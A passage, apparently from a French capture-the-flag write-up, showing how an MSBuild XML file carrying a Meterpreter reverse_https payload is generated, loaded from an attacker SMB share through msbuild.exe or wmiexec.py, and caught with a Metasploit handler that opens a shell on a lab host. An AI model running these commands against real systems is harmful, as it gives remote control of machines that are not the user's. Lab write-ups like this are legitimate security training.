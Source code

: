 ```plain
    (1) windows/meterpreter/reverse_tcp
    (2) windows/meterpreter/reverse_http
    (3) windows/meterpreter/reverse_https

Select payload: 3
Enter Your Local IP Address (10.0.2.15): 10.10.13.82
Enter the listener port (443): 443
[*] Generating RAW shellcode Payload...
[*] Generating MSF Resource Script...
[+] Metasploit resource script written to msbuild_nps.rc
[+] Payload written to msbuild_nps.xml

1. Run "msfconsole -r msbuild_nps.rc" to start listener.
2. Choose a Deployment Option (a or b): - See README.md for more information.
  a. Local File Deployment:
    - %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe <folder_path_here>\msbuild_nps.xml
  b. Remote File Deployment:
    - wmiexec.py <USER>:'<PASS>'@<RHOST> cmd.exe /c start %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attackerip>\<share>\msbuild_nps.xml
3. Hack the Planet!!
```

Il ne reste plus qu'à mettre un multi/handler en écoute et passer le csproj généré à MSBuild :  

```plain
c:/windows/Microsoft.NET/Framework/v4.0.30319/MSBuild.exe  \\10.10.13.82\public\msbuild_nps.xml
```

```plain
msf exploit(multi/handler) > use multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf exploit(multi/handler) > set LHOST 10.10.13.82
LHOST => 10.10.13.82
msf exploit(multi/handler) > set LPORT 443
LPORT => 443
msf exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(multi/handler) > set EnableStageEncoding true
EnableStageEncoding => true
msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 12.
msf exploit(multi/handler) >
[*] Started HTTPS reverse handler on https://10.10.13.82:443
[*] https://10.10.13.82:443 handling request from 10.10.10.104; (UUID: mhbtagrf) Encoded stage with x86/shikata_ga_nai
[*] https://10.10.13.82:443 handling request from 10.10.10.104; (UUID: mhbtagrf) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 1 opened (10.10.13.82:443 -> 10.10.10.104:50308) at 2018-09-11 21:23:12 +0200

msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: GIDDY\Stacy
```
